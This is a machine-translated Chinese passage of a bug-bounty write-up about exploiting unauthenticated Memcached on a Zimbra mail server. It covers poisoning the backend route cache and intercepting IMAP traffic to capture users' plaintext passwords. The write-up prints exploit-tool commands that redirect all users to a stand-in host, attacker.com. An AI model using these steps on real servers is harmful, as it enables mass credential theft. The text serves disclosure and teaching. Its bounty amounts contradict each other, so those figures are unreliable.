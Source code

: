 # 关于 25000 英镑赏金的故事——津布拉上的 SSRF 导致以明文形式转储所有凭证

> 原文：<https://infosecwriteups.com/story-of-a-2-5k-bounty-ssrf-on-zimbra-led-to-dump-all-credentials-in-clear-text-6fe826005ccc?source=collection_archive---------0----------------------->

这篇文章是关于我和我的朋友如何从咖啡馆的 bug 奖励计划中获得大约 2500 美元。

# 初始化

在侦察阶段，我列举了 mailx.hezardastan.net 主机，咖啡馆的网络邮件访问。我进行了端口扫描:

![](img/80b7b7c646d811e83cc22b072da2c4ff.png)

有许多开放的港口。其中 Memcached 端口 11211 异常。经过一些基本测试后，它显示:

1.  与端口 11211 通信不需要进行身份验证
2.  电子邮件地址由 Zimbra 保存在缓存中
3.  有添加/修改/删除缓存数据的能力
4.  有能力进行 DDOS 攻击

然而，我在寻找更危险的东西，文件泄露，远程命令执行等。

# **攻击津布拉**

考虑 Zimbra 源代码:

[](https://github.com/fciubotaru/z-pec/blob/master/ZimbraServer/src/java/com/zimbra/cs/util/ProxyPurgeUtil.java) [## fciubotaru/z-pec

### zimbra fork 增加了对 RFC6109 的支持。在 GitHub 上创建一个帐户，为 fciubotaru/z-pec 的开发做出贡献。

github.com](https://github.com/fciubotaru/z-pec/blob/master/ZimbraServer/src/java/com/zimbra/cs/util/ProxyPurgeUtil.java) 

它将通信协议模式、用户名和后端服务器 IP 地址保存在 Memcached 中。在此之前，我通过 Metasploit， **memcached_extractor** 模块进行了数据提取(可以手动完成):

![](img/99d82aa65886f8a1d7b96e1bc6add388.png)![](img/fbe181f8007a342359b8ac2e2000b44b.png)

电子邮件地址可能会被用来进行网络钓鱼或暴力攻击。然而，我仍然不满意这个漏洞。让我们来看看 Zimbra 的工作流程:

1.  用户通过他们的凭证进行身份验证
2.  服务器将用户名和后端服务器 URL 保存在缓存中
3.  用户使用 Zimbra
4.  服务器从缓存中检索后端 URL
5.  服务器与连同用户数据一起检索的 URL(

![](img/18f46948f9215a79cb527bed99e747de.png)

以下是 Zimbra 如何在缓存中保存数据的示例:

```
route:proto=imapssl;user=[REDUCTED]@cafebazaar.ir 127.0.0.1:7993
route:proto=pop3ssl;user=[REDUCTED]@cafebazaar.cloud 127.0.0.1:7995
route:proto=httpssl;user=[REDUCTED]@cafebazaar.ir 127.0.0.1:8443
```

格式是:

```
route:proto=[UserProtocol];user=EmailAddressOrID
```

支持的协议:

```
IMAPSSL 127.0.0.1:7993
POP3SSL 127.0.0.1:7995
HTTPSSL(HTTPS) 127.0.0.1:8443
```

考虑到后端服务器可以通过互联网访问:

```
IMAPSSL mailx.hezardastan.net:7993
POP3SSL mailx.hezardastan.net:7995
HTTPSSL(HTTPS) mailx.hezardastan.net:8443
```

我设计了一个攻击场景，其余部分会解释。

# 发现 SSRF 漏洞

场景是针对 SSRF 测试服务器。攻击场景是将后端服务器 IP 地址更改为任意地址(攻击者的服务器),以便重定向服务器流量。

测试 SSRF 的步骤:

1.  通过自签名 SSL 证书在端口上创建 SSL 侦听器
2.  更改用户缓存以重定向流量

通过改变缓存，来自 maix.hezardastan.net 的连接被接收。

![](img/1cb233708337b4b45df3707a216ab40a.png)

SSRF 实现了:)

# 中间的人

主要目标是**在邮件服务器**正常工作的时候**窃取用户信息**(凭证、电子邮件等)。为了不影响功能，我不得不重定向回流量。考虑到可以从互联网访问的后端开放端口，我可以做这个场景。

![](img/757d4b2506c419b92674d37168da26e2.png)

MITM 的情况:

1.  用户登录到他们的帐户，后端服务器 IP 保存在缓存中
2.  攻击者将后端信息更改为他们的 IP 地址
3.  Zimbra 的流量被重定向到攻击者的服务器
4.  攻击者卸载 SSL 并提取信息(凭证等)
5.  攻击者对打开的后端端口进行 SSL 连接
6.  在对用户进行攻击后，攻击者会将缓存恢复到默认值。

我写了一个[漏洞利用代码](https://gist.github.com/Voorivex/fa0b2b27cc8caf412b842d1ebe3b8914)有几个部分:

![](img/479723a7f9aefdd66824d5cac2e71b19.png)

**1。提取已经登录的电子邮件地址**

```
python HezarSploit.py -m dumpusers
```

![](img/9c0aec6dfdbc109afe4f436d4f3eaf71.png)

**2。假冒 IMAPSSL 服务器与客户端通信**

```
python HezarSploit.py -m mitm --port 4444
```

将凭证转储到`credentials.txt`中。

**3。修改所有用户(或已经登录的用户)的缓存**

```
python HezarSploit.py -m poisoning --user all --ip attacker.com --port 4444
```

4.将缓存更改为默认值

```
python HezarSploit.py -m reset
```

# 把这一切放在一起，攻击

在服务器中:

```
python HezarSploit.py -m mitm --port 4444
```

![](img/1a1685ea91ed0008876cab93282193d9.png)

在控制台中:

```
python HezarSploit.py -m poisoning --user all --ip attacker.com --port 4444
```

![](img/c1f1f14a90512c05e32e7fb44ac95a00.png)

结果是:

![](img/6c9c88409e2aa3acebafe8c124c56b29.png)

我得到了几乎所有用户的明文密码。样品:

![](img/2dfc3f5575d695be2560c8e09a1024ee.png)

# 结束

我报告了这个漏洞，响应速度很快，不到一个小时就修补了漏洞。几天后，他们给了我大约 25000 美元的奖金。我希望这篇文章对你有用。